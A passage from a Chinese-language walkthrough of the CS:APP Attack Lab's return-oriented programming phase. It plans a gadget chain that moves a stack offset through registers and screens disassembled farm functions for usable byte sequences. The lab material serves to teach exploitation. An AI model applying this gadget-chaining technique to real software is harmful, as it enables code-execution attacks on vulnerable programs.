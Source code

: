 这里没有`48`，那么就只能输送到`%esi`中。这里的难点在于如何把偏移量输送到`%esi`中？这里肯定是不能直接输送了，必须通过寄存器的中转。这里只出现了`89 ce`，通过查表我们可以发现`89 ce`对应的指令是`movl %ecx, %esi`。那么我们还需要想办法把值送到`%ecx`中。那么前面的过程就变成了：

```
1. rax = rsp(48 89 e0)
2. ecx = 偏移量； rsi = ecx(89 ce)
3. rdi = rax(<setval_210> 中的 48 89 c7)
4. rax = rdi + rsi（lea指令）
5. rdi = rax(<setval_210> 中的 48 89 c7)
6. ret
7. 将攻击字符串放在%rsp + offset 处
```

我们再来探测一下目的寄存器为`%ecx`的相关指令，其格式为`(48)* 89 (c|d|e|f)(1|9)`，包含其格式的代码段为：

```
00000000004019f6 <getval_226>: // 不可取，48 c0不是指令
  4019f6:	b8 89 d1 48 c0       	mov    $0xc048d189,%eax
  4019fb:	c3                   	retq
0000000000401a33 <getval_159>: // 可取，38 c9 是cmpb %cl指令
  401a33:	b8 89 d1 38 c9       	mov    $0xc938d189,%eax
  401a38:	c3                   	retq
0000000000401a68 <getval_311>: // 可取，08 db 是orb %bl指令
  401a68:	b8 89 d1 08 db       	mov    $0xdb08d189,%eax
  401a6d:	c3                   	retq
0000000000401a6e <setval_167>: // 不可取，91 c3 不是指令
  401a6e:	c7 07 89 d1 91 c3    	movl   $0xc391d189,(%rdi)
  401a74:	c3                   	retq
```

代码段中以`%ecx`为目的寄存器的代码格式为`89 d1`，其转化为指令为`movl %edx, %ecx`。

那么前面的过程就变成了：

```
1. rax = rsp(48 89 e0)
2. edx = 偏移量； ecx = edx；(89 d1) rsi = ecx(89 ce)
3. rdi = rax(<setval_210> 中的 48 89 c7)
4. rax = rdi + rsi（lea指令）
5. rdi = rax(<setval_210> 中的 48 89 c7)
6. ret
7. 将攻击字符串放在%rsp + offset 处
```

我们再来探测一下目的寄存器为`%edx`的相关指令，其格式为`(48)* 89 (c|d|e|f)(2|a)`，包含其格式的代码段为：

```
00000000004019db <getval_481>: // 可以是他！
  4019db:	b8 5c 89 c2 90       	mov    $0x90c2895c,%eax
  4019e0:	c3                   	retq
0000000000401a1e <addval_479>: // 不可以是他！
  401a1e:	8d 87 89 c2 00 c9    	lea    -0x36ff3d77(%rdi),%eax
  401a24:	c3                   	retq
0000000000401a40 <addval_487>: // 可以是他，84 c0是 testb %al
  401a40:	8d 87 89 c2 84 c0    	lea    -0x3f7b3d77(%rdi),%eax
  401a46:	c3                   	retq
0000000000401a54 <getval_155>: // 不可以是他，c4 c9不是指令
  401a54:	b8 89 c2 c4 c9       	mov    $0xc9c4c289,%eax
  401a59:	c3                   	retq
0000000000401a8a <addval_124>: // 不可以是他，c7 37不是指令
  401a8a:	8d 87 89 c2 c7 3c    	lea    0x3cc7c289(%rdi),%eax
  401a90:	c3                   	retq
0000000000401a9e <addval_184>: // 不可以是他，60 d2不是指令
  401a9e:	8d 87 89 c2 60 d2    	lea    -0x2d9f3d77(%rdi),%eax
  401aa4:	c3                   	retq
```
